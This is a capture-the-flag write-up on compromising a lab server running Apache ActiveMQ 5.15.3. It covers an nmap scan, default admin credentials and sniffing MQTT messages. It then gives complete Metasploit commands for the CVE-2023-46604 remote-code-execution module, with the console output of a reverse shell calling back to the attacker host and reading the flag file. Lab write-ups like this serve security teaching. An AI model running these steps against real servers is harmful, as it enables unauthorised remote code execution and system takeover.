 # Writeup
by fluffyhake

## Solution
Running metasploit with the `multi/misc/apache_activemq_rce_cve_2023_46604` exploit gives us a reverse shell where we can obtain the flag.

### Example

```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185

msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/bkuRyqOrWH
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r45tNsHKThhcMCnA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r45tNsHKThhcMCnA\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.128.2.186:4444 -> 10.128.2.185:42398) at 2024-11-03 21:21:02 +0000
[*] 10.128.2.185:61616 - Server stopped.


cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```

## Explanation
We started by running `nmap -A -sS -p- -Pn 10.128.2.185` to gather information about open ports and services.

```
$ nmap -A -sS -p- -Pn 10.128.2.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 18:30 UTC
Nmap scan report for ip-10-128-2-185.eu-west-1.compute.internal (10.128.2.185)
Host is up (0.00026s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:70:2a:43:ae:f2:5b:9a:88:a7:67:ef:c0:08:6e:2a (RSA)
|   256 4e:79:45:f2:30:5b:12:0f:34:12:5d:34:5b:cf:6c:d8 (ECDSA)
|_  256 ed:4f:5c:ad:c1:fa:c1:33:d9:4c:92:83:37:36:c9:b1 (ED25519)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.2.22.v20170606
|_http-server-header: Jetty(9.2.22.v20170606)
|_http-title: Apache ActiveMQ

and so on...
```

The server is responding on a lot of ports. After some poking around we see that the website at tcp/8161 is running Apache ActiveMQ with default credentials `username: admin password: admin`.

This was really interesting. We could listen to messages with `mosquitto_sub -v -h 10.128.2.185 -p 1883 -t '#'` and see messeges sent from the admin panel. 

![Web Panel and mosquitto_sub](image.png)

We do not have a shell yet, so let's look for some other way in. Looking for Apache ActiveMQ exploits we find a metasploit exploit that could give us a reverse shell. It's called `multi/misc/apache_activemq_rce_cve_2023_46604`. Let's try it.

Launching the metasploit console
```
msfconsole
```

Selecting the exploit we found
```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
```
List the possible targets.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Windows
    1   Linux
    2   Unix

```
In our case we select Unix. I struggled to get any other payload than `cmd/unix/reverse` to work, so thats why we used Unix.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
```

Show all available options for this exploit. We need to define RHOSTS here since it's required.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.co
                                       m/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on.
                                       This must be an address on the local machine or 0.
                                       0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is rando
                                       mly generated)
   URIPATH                   no        The URI to use for this exploit (default is random
                                       )

```

Use `set` to set RHOSTS. RHOSTS in metasploit is one or multiple remote hosts you want to exploit.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185
```
Set the payload to `cmd/unix/reverse`. The payload defines what to do when we have executed the exploit successfully. This could be reading files, creating users or opening a reverse shell. We want that reverse shell. To see all available payloads for the exploit you can run `show payloads`.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
```
Finally, run `exploit` to execute.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/3TCbclwjZo33SHe
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jxhfGYLjMSxVO6hV;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jxhfGYLjMSxVO6hV\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.128.2.186:4444 -> 10.128.2.185:42382) at 2024-11-03 19:28:59 +0000
[*] 10.128.2.185:61616 - Server stopped.



dir
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr
```
We now have a reverse shell. Let's use metasploit to give us a proper bash shell by running `shell`.

```
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /usr/bin/bash


[prime@ip-10-128-2-185 /]$ whoami
whoami
prime
```
We now have a shell in the context of the prime user. Let's look around for a bit.
```
[prime@ip-10-128-2-185 /]$ cd
cd

[prime@ip-10-128-2-185 ~]$ ls
ls
user.txt
```
In the home folder there is a file called user.txt. It contains the flag 🎉
```
[prime@ip-10-128-2-185 ~]$ cat user.txt	
cat user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```

